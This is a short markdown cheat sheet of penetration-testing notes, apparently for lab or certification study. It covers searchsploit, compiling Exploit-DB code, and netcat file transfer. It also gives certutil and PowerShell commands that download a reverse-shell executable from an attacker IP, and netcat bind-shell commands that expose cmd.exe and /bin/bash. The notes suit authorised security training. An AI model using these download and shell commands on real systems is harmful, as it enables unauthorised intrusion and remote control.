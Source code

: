 # Publicly available exploits

- Exploit-db: https://www.exploit-db.com/
- Rapid7 - https://www.rapid7.com/db/?q=&type=

# Searchsploit

- searchsploit -m "<id>" 
- `searchsploit -m 39161` : move exploit file to current folder
- -c flag for case sensitive on
- -t flag to search in title
- -e flag for exact match
- -w flag for online link instead of local file
- searchsploit remote windows smb
- searchsploit remote linux ssh
- searchsploit remote webapps wordpress
- searchsploit local windows : for local privesc on windows

# Fixing Exploits

- change local ip and port
- like, in hfs 2.3 local exploit code, we need to set local ip and port 
- we also need to run a python http server hosting nc.exe
- we can find nc.exe in /usr/share/windows-resources/binaries/nc.exe

# Compiling exploit code

- sudo apt install mingw-w64 gcc
- i686-w64-mingw32-gcc 9303.c -o exploit : will generate .exe file for x64
- i686-w64-mingw32-gcc 9303.c -o exploit -lws2_32: will generate .exe file for x32

- precompiled exploit-db files: https://github.com/offensive-security/exploitdb-bin-sploits
- reverse-shell cheatsheet: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md`
- online reverse-shell generator: https://www.revshells.com/

# Useful paths

- /usr/share/exploitdb
- /usr/share/windows-resources/binaries/nc.exe

# Netcat

- nc -nvlp 8080 (listen on port 8080)
- nc -nv (connect to tcp port)
- nc -nvu <ip> <port> : connect to udp port
Transferring files:
- nc -nvlp 1234 > test.txt (recepient)
- nc -nv ip port < test.txt (sender)

# Certutil

- used to download files on windows
- `certutil -urlcache -f <dl_url> <out_file>` 
- `certutil -urlcache -f http://<ip>/nc.exe nc.exe`
Alternative command:
- `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.17.5.136:8000/revshell.exe','revshell.exe')"`

# Bind Shells:

- `nc.exe -nlvp port -e cmd.exe `(windows victim)
- `nc -nv ip port` (linux attacker)

- `nc -nvlp port -e /bin/bash` (linux victim)
- `nc.exe -nv ip port` (windows attacker)
 